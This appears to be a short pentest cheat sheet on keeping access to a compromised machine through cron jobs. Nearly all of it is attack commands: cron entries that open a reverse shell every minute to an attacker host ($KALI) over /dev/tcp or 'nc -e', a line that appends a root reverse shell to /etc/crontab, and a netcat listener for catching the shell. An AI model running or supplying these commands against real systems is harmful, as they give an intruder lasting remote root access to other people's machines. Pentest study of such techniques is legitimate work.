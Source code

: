 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Cronjob every 1 min
```bash - target
crontab -e
* * * * * 0<&196;exec 196<>/dev/tcp/$KALI/443; sh <&196 >&196 2>&196
```

```bash - target
* * * * * nc -e /bin/sh $KALI 443
```

```bash - target
echo "*  *  *  *  * root nc $KALI 443 -e /usr/bin/bash" >> /etc/crontab
```

Listener

```bash - target
nc -lvp 443
```

Sometimes you have to set the user

```bash - target
crontab -e
*/10 * * * * pelle /path/to/binary
```